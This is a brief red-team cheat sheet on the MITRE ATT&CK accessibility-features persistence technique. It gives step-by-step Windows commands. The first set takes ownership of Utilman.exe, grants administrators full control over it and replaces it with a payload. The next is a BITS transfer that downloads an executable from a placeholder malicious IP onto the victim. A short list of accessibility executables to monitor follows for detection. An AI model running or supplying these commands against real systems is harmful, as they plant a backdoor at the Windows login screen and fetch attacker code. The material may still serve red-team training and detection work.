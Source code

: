 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## Exploit syntax:

1. Get a beacon with administrative privileges. 
1. In parrot open a blank text file and paste the following commands into it and edit the <payload path> to the payload location on the victim box
    ```sh
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	move <payload path> c:\windows\system32\Utilman.exe;
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```

## Detection Technique:
* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe